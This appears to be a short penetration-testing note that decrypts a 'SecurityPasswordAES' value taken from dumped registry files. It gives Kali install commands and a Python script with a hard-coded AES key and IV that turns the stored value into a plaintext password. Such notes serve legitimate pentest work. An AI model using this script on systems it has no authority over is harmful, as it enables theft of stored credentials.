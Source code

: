 ```yaml
---
category: Uncategorized
tags: [pentest]
created: 2024-12-21

---
```

From dumped reg files:

"SecurityPasswordAES"=hex:2c,0f,ff,76,ca,03,d7,c2,1c,0d,3c,8b,55,ed,d8,de,37,\
  f8,97,20,ae,6e,d3,82,d0,ad,2e,70,f9,7e,ff,ea,0b,0c,1c,d9,01,cb,d1,ad,90,fc,\
  60,1b,9e,40,fc,9c,4b,af,65,ee,c5,19,62,eb,4e,da,cc,7c,30,a8,a6,6b,0c,bd,9f,\
  36,2a,c0,ca,d1,59,89,04,ae,cb,8b,96,10

Place above value into hex_str_cipher below:

```bash - kali
pip3 install hexdump
```

```bash - kali
pip3 install pycrypto
```

```python - kali
import sys, hexdump, binascii
from Crypto.Cipher import AES

class AESCipher:
    def __init__(self, key):
        self.key = key

    def decrypt(self, iv, data):
        self.cipher = AES.new(self.key, AES.MODE_CBC, iv)
        return self.cipher.decrypt(data)

key = binascii.unhexlify("0602000000a400005253413100040000")
iv = binascii.unhexlify("0100010067244F436E6762F25EA8D704")

# Hex Cipher String
hex_str_cipher = "2C0FFF76CA03D7C21C0D3C8B55EDD8DE37F89720AE6ED382D0AD2E70F97EFFEA0B0C1CD901CBD1AD90FC601B9E40FC9C4BAF65EEC51962EB4EDACC7C30A8A66B0CBD9F362AC0CAD1598904AECB8B9610"

ciphertext = binascii.unhexlify(hex_str_cipher)

raw_un = AESCipher(key).decrypt(iv, ciphertext)

print(hexdump.hexdump(raw_un))

password = raw_un.decode('utf-16')
print(password)

```


Last updated: `$= dv.current().file.mtime.toFormat("MMMM dd, yyyy 'at' HH:mm")`
